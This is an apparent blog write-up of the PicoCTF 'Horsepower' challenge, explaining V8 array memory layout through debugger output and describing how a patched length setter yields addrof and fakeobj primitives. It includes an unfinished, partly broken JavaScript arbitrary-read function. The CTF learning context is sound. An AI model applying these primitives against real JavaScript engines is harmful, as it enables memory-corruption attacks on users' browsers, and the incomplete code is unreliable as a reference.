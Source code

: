 ```yaml
---
layout: post
title: Basics of JavaScript engine exploitation
description: "baby steps in exploitation"
author: Herold Moore
date: 2021-06-06
permalink: /:title/
tags: [javascript, exploitation]
share: true
published: true
---
```


# PicoCTF Horsepower ~340p

Lets just create an array

```text
d8> var a = [1.1, 1.2]
undefined
```

Lets inspect it

```text
d8> %DebugPrint(a)
DebugPrint: 0x9ab08084ed9: [JSArray]
- map: 0x09ab081c39f1 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
- prototype: 0x09ab0818ab61 <JSArray[0]>
- elements: 0x09ab08084ec1 <FixedDoubleArray[2]> [PACKED_DOUBLE_ELEMENTS]
- length: 2
- properties: 0x09ab0804222d <FixedArray[0]>
- All own properties (excluding elements): {
  0x9ab080446d1: [String] in ReadOnlySpace: #length: 0x09ab0810215d <AccessorInfo> (const accessor descriptor), location: descriptor
}
- elements: 0x09ab08084ec1 <FixedDoubleArray[2]> {
         0: 1.1
         1: 1.2
}
0x9ab081c39f1: [Map]
- type: JS_ARRAY_TYPE
- instance size: 16
- inobject properties: 0
- elements kind: PACKED_DOUBLE_ELEMENTS
- unused property fields: 0
- enum length: invalid
- back pointer: 0x09ab081c39c9 <Map(HOLEY_SMI_ELEMENTS)>
- prototype_validity cell: 0x09ab08102405 <Cell value= 1>
- instance descriptors #1: 0x09ab0818b031 <DescriptorArray[1]>
- transitions #1: 0x09ab0818b07d <TransitionArray[4]>Transition array #1:
   0x09ab08044fd5 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x09ab081c3a19 <Map(HOLEY_DOUBLE_ELEMENTS)>

- prototype: 0x09ab0818ab61 <JSArray[0]>
- constructor: 0x09ab0818a8f1 <JSFunction Array (sfi = 0x9ab0810ac31)>
- dependent code: 0x09ab080421b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
- construction counter: 0

[1.1, 1.2]
```

The patch provided with the challenge adds a builtin function to arrays,
this function requires a parameter that is used to change .legth

```text
d8> a.setHorsepower()
Improper attempt to set horsepower
[1.1, 1.2]
d8> a.setHorsepower(1)
[1.1]
d8> console.log(a)
1.1
```

As we've seen, this effectively changes .length. a's address is 0x9ab08084ed9.
Remove -1 because of pointer tagging

We can confirm what %DebugPrint()

Map: 0x0804222d081c39f1
Elements: 0x000000c808084ec1

```text
(gdb) x/4gx 0x9ab08084ed9-1
0x9ab08084ed8:	0x0804222d081c39f1	0x000000c808084ec1
0x9ab08084ee8:	0x6393ddae080425a9	0x7566280a00000adc
```

This is the elements array. Being an array, it has its own map at address:
0x0000000408042a99 pointer compression. There is a register that contain
the base address for *every* heap object utilised (0x09ab08xxxxxx). This
area is the lowest memory address in the engine.

```text
(gdb) x/4gx 0x09ab08084ec1-1
0x9ab08084ec0:	0x0000000408042a99	0x3ff199999999999a
0x9ab08084ed0:	0x3ff3333333333333	0x0804222d081c39f1
(gdb)
```

The addresses look as follow

  0x0000000408042a99: elements' array Map
  0x3ff199999999999a: 1.1
  0x3ff3333333333333: 1.2
  0x0804222d081c39f1: a's Map address

The challenge is pretty straightforward, we'll just skip the patch and focus
on the relevant part. For clarity, we can inspect the memory and see the
elements array being allocated before `a`

```text
(gdb) x/8gx 0x1b8e08084ed9-1
0x1b8e08084ed8: 0x0000000408042a99      0x3ff199999999999a
0x1b8e08084ee8: 0x3ff3333333333333  |-- 0x0804222d081c39f1
0x1b8e08084ef8: 0x0000000408084ed9      0x8b5af746080425a9
0x1b8e08084f08: 0x7566280a00000adc --|  0x29286e6f6974636e
(gdb) x/4gx 0x1b8e08084ef1-1
0x1b8e08084ef0: 0x0804222d081c39f1      0x0000000408084ed9
0x1b8e08084f00: 0x8b5af746080425a9      0x7566280a00000adc
```

```text
+++ b/src/objects/js-array.tq
@@ -28,6 +28,9 @@ extern class JSArray extends JSObject {
   macro IsEmpty(): bool {
     return this.length == 0;
   }
+  macro SetLength(l: Smi) {
+    this.length = l;
+  }
   length: Number;
 }
```

We can arbitrarly overflow any array. Given this, we just have to overwrite
a's Map with an array of our own and proceed in getting code execution

%DebugPrint(a) returns:

```text
[...]
0x1b8e081c39f1: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x1b8e081c39c9 <Map(HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x1b8e08102405 <Cell value= 1>
 - instance descriptors #1: 0x1b8e0818b031 <DescriptorArray[1]>
 - transitions #1: 0x1b8e0818b07d <TransitionArray[4]>Transition array #1:
     0x1b8e08044fd5 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x1b8e081c3a19 <Map(HOLEY_DOUBLE_ELEMENTS)>

 - prototype: 0x1b8e0818ab61 <JSArray[0]>
 - constructor: 0x1b8e0818a8f1 <JSFunction Array (sfi = 0x1b8e0810ac31)>
 - dependent code: 0x1b8e080421b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```


Lets inspect a's Map memory

```text
(gdb) x/8gx 0x1b8e081c39f1-1
0x1b8e081c39f0: 0x1604040408042119      0x0a0007ff2100043d
0x1b8e081c3a00: 0x081c39c90818ab61      0x080421b90818b031
0x1b8e081c3a10: 0x0818b07d08102405      0x1604040408042119
0x1b8e081c3a20: 0x0a0007ff2900043d      0x081c39f10818ab61
```


### addrof

a primitive that lets us get the memory address of an object as float value

---

1. get a float array's Map
2. get a obj array's Map
3. place an obj in the obj array
    a. obj array now has a memory address at idx = 0
4. swap the two Maps
5. now obj array treats value at idx = 0 as a float number. As such objArr[0]
   returns a float value and not an obj
6. swap back the two Maps
7. return the obj

### fakeobj

a primitive that lets us write the memory address of a non-existent ("fake") object as float value

---



1. get a float array's Map
2. get a obj array's Map
3. write a float in the float array
    a. float array now has a float value at idx = 0
4. swap the two Maps
5. now float array treats value at idx = 0 as a memory address. As such floatArr[0]
   returns an obj and not a float value
6. swap back the two Maps
7. return the obj (which return the memory contents pointed to by the provided address)


### Building arbitrary R/W 

# TODO

- implement functions to convert from integer to float
  - int must use the entire 64 bit space
- implement functions to print as hex values

### Read

Create an array that will be later disguised as a Map for the array in which we will effectively read from and write to

```javascript
function _read(addr) {
  let a = [1.1, 1.2, 1.3, 1.4]
  a.setHorsepower(5)
  let floatMap = a[5]

  let fakeArray = [floatMap, fakeOutOfLine, fakeElementsPtr, fakeProp]

  // get the memory address of fakeArray and read its memory as if it were an object and return a pointer to it
  let ptrFakeArray = fakeObj(addrOf(fakeArray - 0x20n))

  // now go back to fakeArray and change its elements pointer to the memory address
  // to be read (0xffffffff is a random value
  fakeArray[2] = addr

  // now read the value by accessing the object as if it were an array and thus treating its values as floats and
  // not as memory addresses
  return ptrFakeArray[0]
}
```

### Write



Past the end of element's arrays in v8 there's the Map address of the object 
they refer to. Why is that the case ? I can't seem to find anything about it


